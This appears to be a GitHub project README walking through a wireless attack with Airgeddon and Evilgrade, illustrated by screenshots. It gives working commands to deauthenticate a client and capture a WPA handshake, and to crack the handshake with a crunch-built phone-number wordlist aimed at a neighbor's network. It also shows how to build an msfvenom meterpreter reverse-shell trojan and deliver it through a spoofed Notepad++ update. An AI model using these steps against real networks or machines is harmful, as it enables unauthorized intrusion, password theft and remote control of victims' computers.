 # Wireless Hacking
Wireless Hacking will be more efficient if we know the attack flow of the target. In this project, the wireless hacking tools that will be using are Airgeddon and Evilgrade.

Airgeddon is written in bash and multi-use for Linux system to audit wireless networks and developed by V1s1t0rsh3r3. Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates.

## Attacking Procedures
### 1. Reconnaissance and Scanning
![image](https://user-images.githubusercontent.com/86700132/127674455-aa069a9b-2705-4043-a6c0-edc3b64eb545.png)
![image](https://user-images.githubusercontent.com/86700132/127674709-4c9650ce-6c1a-437e-8f20-894324a5b79c.png)

After opening the Airgeddon main menu terminal window in the Kali Linux, the first step we need to do is to capture some handshake. Choose option 5 and the script will move to handshake menu.



![image](https://user-images.githubusercontent.com/86700132/127674985-fd2cfa31-363b-4af4-8533-9dd76d8e25d5.png)
![image](https://user-images.githubusercontent.com/86700132/127675004-8be75330-27d7-4dc6-875d-1b5565bd170a.png)

The next step we need to perform is to scan on all available wireless networks detected by wlan0mon and select the targeted network by choosing option 4. After capturing some network, press CTRL+C to stop the scan.



![image](https://user-images.githubusercontent.com/86700132/127675108-326d01e0-6ae5-43a3-b6a9-0dbe17e7a047.png)

Then, select the target network. In this project, we choose No.17, which is Lenovo P70-A.



![image](https://user-images.githubusercontent.com/86700132/127675583-2e0f7d6d-fa24-4e5e-9d1d-8945fc55307e.png)

Next, choose option 5 capture the handshake. In our case, we are going to capture network for Lenovo P70-A.



![image](https://user-images.githubusercontent.com/86700132/127675707-16a8de3f-9b14-4963-aabd-92c8d9503928.png)
![image](https://user-images.githubusercontent.com/86700132/127675844-d927a5e6-7082-400a-9224-ab27beb98401.png)

Next step, select the deauth / disassoc amok mdk3 attack which is option 1 and wait around 20 seconds to forcefully disconnect a client from the access point and get the handshake.



![image](https://user-images.githubusercontent.com/86700132/127675907-a65d30ea-9ccf-409a-a236-7033a8dd610d.png)

The script will ask whether you get the handshake or not, insert y and press enter if you successful get the handshake which we will using it to perform wireless attack. Last, return to main menu and prepare for gaining access.


### 2. Gaining Access
#### 1st STEP : Password cracking by using Airgeddon 

Once we receive the network password hash from reconnaissance and scanning, we are going to crack that hash so that we can get the network password without identify the private key. In this case, we use a dictionary password cracking attack. We create a dictionary file that consists of list of phone numbers manually, since we know that the network password is phone number of our neighbor. Then we crack the network password by using the dictionary file.

Open a new terminal and use crunch to create a dictionary file.
```
root@kali:~# crunch 10 10 0123456789 -t 016%%%%%% -o /root/Desktop/phonenumber.txt
```


Come back to airgeddon terminal window. From the main menu choose option 6, which is offline WPA/WPA2 decrypt menu. 

![image](https://user-images.githubusercontent.com/86700132/127677222-2fe4cfaf-b39f-43e0-8689-7041864db89d.png)

Then choose dictionary attack against capture file and enter the path of wordlists file.
```
/root/Desktop/phonenumber.txt
```
![image](https://user-images.githubusercontent.com/86700132/127677552-37a11cb5-7de7-4097-99b4-b41002e509f5.png)



The terminal will start to run the dictionary file.

![image](https://user-images.githubusercontent.com/86700132/127677747-294a912f-7360-4dd3-a13c-802f00137896.png)

 
 
The terminal will display word “KEY FOUND!” once the key is detected.

![image](https://user-images.githubusercontent.com/86700132/127677772-9ffe6fa1-92ab-42f5-b3b5-581ef94b2bb8.png)


 
Finally, press enter to store the record in the default path.

![image](https://user-images.githubusercontent.com/86700132/127677843-57fbc3a1-c9ad-4ca7-a707-502e782e3388.png)


 
#### 2nd STEP : Create a reverse shell trojan using Metasploit
In this step, we create a reverse shell trojan so that targeted machine will listen to kali linux meterpreter shell once it is executed.

Now create a reverse shell trojan called "shell.exe" by using code below as figure below. This trojan will make the targeted machine listen to kali linux meterpreter shell. This trojan is created and located at root directory in kali linux.
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.144.142 LPORT=4444 -f exe > shell.exe
```
 
 
#### 3rd STEP : create a notepadplus module and spoof notepad++ website using Evilgrade
In this step, we create a notepadplus module and spoof notepad++ website. This module can be retrieved from spoof website. Once victim run his/her notepad++.exe and click yes button for updating their notepad++, their machine will request update module, which is notepadplus module from our spoof website. Then their machine starts to download the update received from notepadplus module and at the same time, the notepadplus also send the trojan to targeted machine and make it execute the trojan so that targeted machine listen to kali linux meterpreter shell.

Start the Evilgrade by typing the following commands:
```
root@kali:~# cd evilgrade
root@kali:~# ./evilgrade
```

If Evilgrade run successfully, then it will load the modules as shown in diagram below:

![image](https://user-images.githubusercontent.com/86700132/127678337-cf19482f-dcd5-4518-9886-fa2160a2ee52.png)



After Evilgrade is intialized, type configure notepadplus to create a notepadplus module and spoof notepad++ website.

Type command below:
```
evilgrade>  configure notepadplus
```

Then, we inject the malicious code into the notepadplus module. This malicious code will execute the trojan we set before when victim is updating their notepad++.
```
evilgrade(notepadplus)>set agent '["<%OUT%>/root/shell.exe<%OUT%>"]'
```
![image](https://user-images.githubusercontent.com/86700132/127678526-94f216f1-98c7-4e39-ae81-f3ce0f457463.png)



To ensure malicious code is properly injected, type command below to view the module and spoof website properties.
```
evilgrade(notepadplus)>show options
```
![image](https://user-images.githubusercontent.com/86700132/127678612-c004cf91-97a6-4a2c-87bb-d5a2c62c7c24.png)





